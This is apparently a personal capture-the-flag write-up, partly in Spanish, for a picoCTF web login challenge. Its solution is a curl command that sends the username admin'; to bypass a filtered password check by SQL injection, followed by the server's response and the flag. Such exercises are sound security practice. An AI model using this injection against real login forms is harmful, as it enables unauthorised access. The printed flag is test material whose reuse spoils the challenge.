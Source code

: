 ## descripcion

There is a website running at `https://jupiter.challenges.picoctf.org/problem/53751/` ([link](https://jupiter.challenges.picoctf.org/problem/53751/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:53751
## pistas 

The password is being filtered.
## Solution

```
ulise@SSJ2 MINGW64 /d/Downloads/notas-hacking (main)
$ curl -s https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=password&debug=1"
<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_c34df170}</p>


```

## notas

Comandos utilizados:
	1.

se utilizo otro tipo de injeccion , el prposito es ver que tipo de sentencia sql verifica y a partir de ahi explotar esta sentencia para que pueda acceder
## references
